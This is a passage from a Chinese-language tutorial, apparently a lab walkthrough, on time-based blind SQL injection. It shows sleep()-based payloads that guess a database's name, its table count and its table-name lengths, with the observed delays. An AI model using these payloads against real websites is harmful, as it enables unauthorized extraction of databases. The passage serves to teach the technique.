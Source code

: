 > 

> 1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟

> 

> 说明数据库名的第一个字符为小写字母d。

> 

> …



重复上述步骤，即可猜解出数据库名。



### **3.猜解数据库中的表名**



首先猜解数据库中表的数量：



> 1’ and if((select count(table\_name) from information\_schema.tables where table\_schema=database() )=1,sleep(5),1)# 没有延迟

> 

> 1’ and if((select count(table\_name) from information\_schema.tables where table\_schema=database() )=2,sleep(5),1)# 明显延迟



说明数据库中有两个表。



接着挨个猜解表名：



> 1’ and if(length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

> 

> …

> 

> 1’ and if(length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟



说明第一个表名的长度为9个字符。



采用二分法即可猜解出表名。



### **4.猜解表中的字段名**

